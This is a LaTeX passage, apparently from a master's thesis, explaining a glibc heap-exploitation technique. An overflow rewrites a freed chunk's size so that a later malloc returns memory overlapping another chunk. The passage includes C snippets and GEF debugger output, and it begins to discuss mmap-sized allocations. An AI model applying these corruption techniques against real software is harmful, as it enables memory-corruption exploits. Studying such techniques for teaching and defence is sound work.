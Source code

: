 \documentclass{masterthesis}
\begin{document}
In the next step, like we did before, We have to change the chunk size by overflow :
\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
  Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
 
As you remember, currently , p2 located at the unsorted bin , also, we change the size of p2, so, when the heap manager receives an allocation request it return p2, as the result, it have overlap with previous chunks :
\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}
\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
 \end{lstlisting}
\begin{lstlisting}[frame=tlrb]   
gef p p4
$11 = (intptr_t *) 0x555555559110
gef p p2
$12 = (intptr_t *) 0x555555559110
gef p p1
$13 = (intptr_t *) 0x555555559010
gef p p3
$14 = (intptr_t *) 0x555555559210
 \end{lstlisting}
 
 
As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application.Now the p3 and p4 have overlap, so , write data on one of them could overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system can use mmap in this scenario. Take consider the following code : 
\begin{lstlisting}[language=c,frame=tlrb]
int* ptr1 = malloc(0x10);
long long* top_ptr = malloc(0x100000);
long long* mmap_chunk_2 = malloc(0x100000);
long long* mmap_chunk_3 = malloc(0x100000);
\end{lstlisting}
Heap layout after allocation 
\end{document}
